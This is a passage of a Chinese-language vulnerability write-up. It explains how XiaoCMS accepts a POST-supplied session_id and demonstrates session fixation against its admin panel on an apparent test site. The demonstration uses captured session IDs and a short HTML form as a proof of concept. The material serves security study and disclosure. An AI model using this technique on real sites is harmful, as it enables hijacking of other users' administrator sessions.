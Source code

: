 从20行的代码可以知道，如果设置了session_id，那么就会调用session_id()方法将该session_id设置为当前的session_id，而且这个session_id可以用POST方法传输得到。

### 4.1.4 CMS实战演示
测试步骤：
先注册一个只有几个权限的普通管理员账号：quan（其实注册普通用户就行，但是我没找到）
然后用Google浏览器登录quan账号，用Firefox登录admin账号
分别获取相应session_id，得到quan的ssession_id=57049dc90ccd7226302dc8efbb8f2ce0
直接在火狐浏览器用hackbar测试访问：
http://quan.xiaocms.net/admin/?xiaocms
POST:session_id=57049dc90ccd7226302dc8efbb8f2ce0

也可以构造测试POC：
```
<html>
    <body>
    <form action="http://quan.xiaocms.net/admin/" method="post">
    <input type="hidden" name="session_id" value="57049dc90ccd7226302dc8efbb8f2ce0">
    <input type="submit" >
    </form>
</body>
</html>
```
存为html文件，然后用Firefox打开，点击提交查询。

此时打开Google浏览器，可以看到quan管理员的首页状态
![15.png](assets/图片15.png)
